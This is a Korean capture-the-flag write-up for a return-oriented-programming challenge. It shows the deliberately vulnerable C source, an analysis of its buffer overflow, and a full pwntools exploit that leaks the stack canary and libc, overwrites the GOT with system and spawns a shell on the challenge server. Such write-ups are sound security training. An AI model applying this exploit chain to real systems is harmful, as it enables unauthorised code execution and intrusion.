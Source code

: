 ```c
// Name: rop.c
// Compile: gcc -o rop rop.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);

  return 0;
}
```

```bash
$ checksec ./rop
[*] './rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 분석

`rop.c` 코드와 `checksec ./rop`의 결과를 볼 때, NX를 우회해서 쉘을 탈취해야 함을 알 수 있다.

# 취약점

`buf` 배열의 크기는 `0x30`바이트인데, `read` 함수를 통해 `stdin`으로부터 읽어오는 데이터의 크기는 `0x100`바이트이므로 BOF 취약점이 있음을 알 수 있다.

# 공격

`rop`가 `read(0, buf, 0x100);`을 총 2번 호출하며, 그 사이에 `printf("Buf: %s\n", buf);`를 통해 `buf`의 내용을 한 번 출력하므로, 첫 번째 `read` 함수의 호출을 통해 stack canary를 얻어내고 두 번째 `read` 함수의 호출을 통해 GOT를 덮어써 `system("/bin/sh")`를 호출해내면 된다.

이를 위해 gdb와 ROPgadget 등의 도구를 활용하여 얻어낸 주요 주소값은 다음과 같다.

* 'ret' 가젯 : `0x400596`
* 'pop rdi; ret' 가젯 : `0x400853`
* 'pop rsi; pop r15; ret' 가젯 : `0x400851`
* `buf` : `$rbp-0x40`
* stack canary : `$rbp-0x8`
* SFP : `$rbp`
* return address : `$rbp+0x8`

또한, `rop.c`의 `main` 함수 내부에서 `read(0, buf, 0x100);`를 통해 이미 `rdx`의 값을 `0x100`으로 바꿔뒀으므로, `rdx`의 값을 수정하기 위한 가젯은 필요 없다.

이를 종합하여 pwn 코드를 작성하면 다음과 같다.

```python
# Name: rop.py

from pwn import *

context.arch = 'amd64'
context.os = 'linux'
# context.log_level = 'debug'

def slog(name, addr):
    success(f'{name}: {hex(addr)}')

HOST = 'host3.dreamhack.games'
PORT = 13114 # The given port

# conn = process('./rop') # local
conn = remote(HOST, PORT)
e = ELF('./rop')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # local
libc = ELF('./libc.so.6')

conn.sendlineafter(b'Buf: ', b'A' * 0x38)
conn.recvuntil(b'A' * 0x38 + b'\x0a')
canary = u64(b'\x00' + conn.recvn(7))
slog('canary', canary)

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
gadget = {
    'ret' : 0x400596,
    'pop rdi; ret' : 0x400853,
    'pop rsi; pop r15; ret' : 0x400851
}

payload = b'A' * 0x38 + p64(canary) + b'B' * 0x8

# write(1, read_got, ...)
payload += p64(gadget['pop rdi; ret']) + p64(0x1)
payload += p64(gadget['pop rsi; pop r15; ret']) + p64(read_got) + p64(0x0)
payload += p64(write_plt)

# read(0, read_got, ...)
payload += p64(gadget['pop rdi; ret']) + p64(0x0)
payload += p64(gadget['pop rsi; pop r15; ret']) + p64(read_got) + p64(0x0)
payload += p64(read_plt)

# read = system 가정
# read("/bin/sh")
payload += p64(gadget['pop rdi; ret']) + p64(read_got + 0x8)
payload += p64(gadget['ret'])
payload += p64(read_plt)

conn.sendafter(b'Buf: ', payload)
read = u64(conn.recvn(6) + b'\x00' * 0x2)
conn.recv()
lb = read - libc.symbols['read']
system = lb + libc.symbols['system']
slog('read', read)
slog('libc_base', lb)
slog('system', system)

conn.send(p64(system) + b'/bin/sh\x00')
conn.interactive()
```